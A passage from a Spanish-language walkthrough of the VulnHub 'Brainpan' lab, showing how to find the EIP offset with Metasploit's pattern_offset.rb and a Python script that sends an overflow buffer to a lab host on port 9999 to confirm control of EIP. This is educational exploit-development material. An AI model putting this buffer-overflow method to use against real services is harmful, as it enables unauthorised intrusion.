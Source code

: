 Una vez que conocemos el EIP podemos controlarlo.

Para obtener el offset, podemos hacer uso de otro módulo de metasploit llamado `pattern_offset.rb`. Este script, devuelve un número que corresponde al offset el cual deberemos agregar al script.

Para ejecutarlo, debemos pasarle el parámetro `-q` con la dirección del EIP obtenido:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 35724134
```

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-21.png)
_pattern_offset.rb_

Este valor lo asignamos a la variable offset y agregamos **4 B's** en la variable `eip`.

```python
#!/usr/bin/env python3
import socket

ip = "192.168.1.16"
port = 9999

offset = 524
before_eip = "A" * offset
eip = "B" * 4

payload = before_eip + eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Enviando shellcode...")
  s.send(bytes(payload + "\r\n", "latin-1"))
  print("Conectado!")
except:
  print("No ha sido posible conectarse.")
```
{: file="exploit.py" }

Si volvemos a ejecutar el script, el valor del **EIP** debería ser `42424242` que se corresponde con nuestras cuatro `B's` (en valor de `B` en hexadecimal es `42`).

![Brainpan](/assets/img/vulnhub/brainpan/brainpan-22.png)
_Registro EIP_
